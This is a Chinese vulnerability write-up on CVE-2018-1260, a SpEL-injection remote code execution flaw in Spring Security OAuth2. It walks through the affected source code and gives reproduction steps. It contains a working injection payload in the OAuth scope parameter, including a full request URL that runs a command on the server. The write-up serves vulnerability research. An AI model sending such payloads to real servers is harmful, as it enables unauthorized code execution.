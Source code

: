 （CVE-2018-1260）Spring Security Oauth2 远程代码执行
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Security OAuth 2.3 to 2.3.2Spring Security OAuth 2.2 to 2.2.1Spring Security OAuth 2.1 to 2.1.1Spring Security OAuth 2.0 to 2.0.14

三、复现过程
------------

### 漏洞分析

先简要补充一下关于OAuth2.0的相关知识。![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId25.png)以上图为例。当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access
token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

在获得access
token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization
code）、简化模式（implicit）、密码模式（resource owner password
credentials）、客户端模式（client
credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数`scope`，这个参数用于表示客户端申请的权限的范围。

，根据[官方文档](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)，在spring-security-oauth的默认配置中scope参数默认为空：

    scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.

为明白起见，我们在demo中将其清楚写出：

    clients.inMemory()
            .withClient("client")
            .authorizedGrantTypes("authorization_code")
            .scopes();

接着开始正式分析。当我们访问`http://localhost:8080/oauth/authorize`重定向至`http://localhost:8080/login`并完成login后程序流程到达org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java，这里贴上部分代码：

    @RequestMapping(value = "/oauth/authorize")
    public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
            SessionStatus sessionStatus, Principal principal) {

        // Pull out the authorization request first, using the OAuth2RequestFactory. All further logic should
        // query off of the authorization request instead of referring back to the parameters map. The contents of the
        // parameters map will be stored without change in the AuthorizationRequest object once it is created.
        AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

        try {
            ...
            // We intentionally only validate the parameters requested by the client (ignoring any data that may have
            // been added to the request by the manager).
            oauth2RequestValidator.validateScope(authorizationRequest, client);
            ...

            // Place auth request into the model so that it is stored in the session
            // for approveOrDeny to use. That way we make sure that auth request comes from the session,
            // so any auth request parameters passed to approveOrDeny will be ignored and retrieved from the session.
            model.put("authorizationRequest", authorizationRequest);

            return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

        }
        ...

第115行![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId27.png)在执行完`AuthorizationRequest authorizationRequest = ...`后，`authorizationRequest`代表了要认证的请求，其中包含了众多参数![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId28.png)

在经过了对一些参数的处理，比如RedirectUri等，之后到达第156行：

    // We intentionally only validate the parameters requested by the client (ignoring any data that may have
    // been added to the request by the manager).
    oauth2RequestValidator.validateScope(authorizationRequest, client);

在这里将对`scope`参数进行验证。跟入`validateScope`到org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:19

    public class DefaultOAuth2RequestValidator implements OAuth2RequestValidator {

        public void validateScope(AuthorizationRequest authorizationRequest, ClientDetails client) throws InvalidScopeException {
            validateScope(authorizationRequest.getScope(), client.getScope());
        }
        ...
    }

继续跟入`validateScope`，至
org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:28

    private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

        if (clientScopes != null && !clientScopes.isEmpty()) {
            for (String scope : requestScopes) {
                if (!clientScopes.contains(scope)) {
                    throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
                }
            }
        }
        
        if (requestScopes.isEmpty()) {
            throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
        }
    }

首先检查`clientScopes`，这个`clientScopes`即我们在前面configure中配置的`.scopes();`，倘若不为空，则进行白名单检查。举个例子，如果前面配置`.scopes("chybeta");`，则传入`requestScopes`必须为`chybeta`，否则会直接抛出异常`Invalid scope:xxx`。但由于此处查`clientScopes`为空值，则接下来仅仅做了`requestScopes.isEmpty()`的检查并且通过。

在完成了各项检查和配置后，在`authorize`函数的最后执行：

    return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

回想一下前面OAuth2.0的流程，在客户端请求授权（A），用户登陆认证（B）后，将会进行用户授权（C），这里即开始进行正式的授权阶段。跟入`getUserApprovalPageResponse`
至org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java:241：![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId29.png)

生成对应的model和view，之后将会forward到/oauth/confirm\_access。为简单起见，我省略中间过程，直接定位到org/springframework/security/oauth2/provider/endpoint/WhitelabelApprovalEndpoint.java:20

public class WhitelabelApprovalEndpoint {\@RequestMapping(\"/oauth/confirm\_access\")public ModelAndView getAccessConfirmation(Map\<String, Object\> model,
HttpServletRequest request) throws Exception {String template = createTemplate(model, request);if (request.getAttribute(\"\_csrf\") != null) {model.put(\"\_csrf\", request.getAttribute(\"\_csrf\"));}return new ModelAndView(new SpelView(template), model);}\...}跟入createTemplate，第29行：

protected String createTemplate(Map\<String, Object\> model,
HttpServletRequest request) {String template = TEMPLATE;if (model.containsKey(\"scopes\") \|\| request.getAttribute(\"scopes\")
!= null) {template = template.replace(\"%scopes%\", createScopes(model,
request)).replace(\"%denial%\", \"\");}\...return template;}跟入createScopes，第46行：![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId30.png)

这里获取到了`scopes`，并且通过for循环生成对应的`builder`，其实就是html和一些标签等，最后返回的即`builder.toString()`,其值如下:

    <ul><li><div>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>

`createScopes`结束后将会把上述`builder.toString()`拼接到`template`中。`createTemplate`结束后，在`getAccessConfirmation`的最后：

    return new ModelAndView(new SpelView(template), model);

根据`template`生成对应的`SpelView`对象，这是其构造函数：![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId31.png)此后在页面渲染的过程中，将会执行页面中的Spel表达式`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`从而造成代码执行。

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId32.png)

所以综上所述，这个任意代码执行的利用条件实在"苛刻"：

1.  需要`scopes`没有配置白名单，否则直接`Invalid scope:xxx`。不过大部分OAuth都会限制授权的范围，即指定scopes。
2.  使用了默认的Approval
    Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

### 漏洞复现

利用github上已有的demo：

    git clone https://github.com/wanghongfei/spring-security-oauth2-example.git

确保导入的spring-security-oauth2为受影响版本，以这里为例为2.0.10进入spring-security-oauth2-example，修改
cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java的第67行:

    @Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }

根据[spring-security-oauth2-example](https://github.com/wanghongfei/spring-security-oauth2-example.git)创建对应的数据库等并修改AlanOAuthApplication中对应的mysql相关配置信息。

访问：

    http://www.0-sec.org:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D

会重定向到login页面，随意输入username和password，点击login，触发payload。![3.gif](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId35.gif)
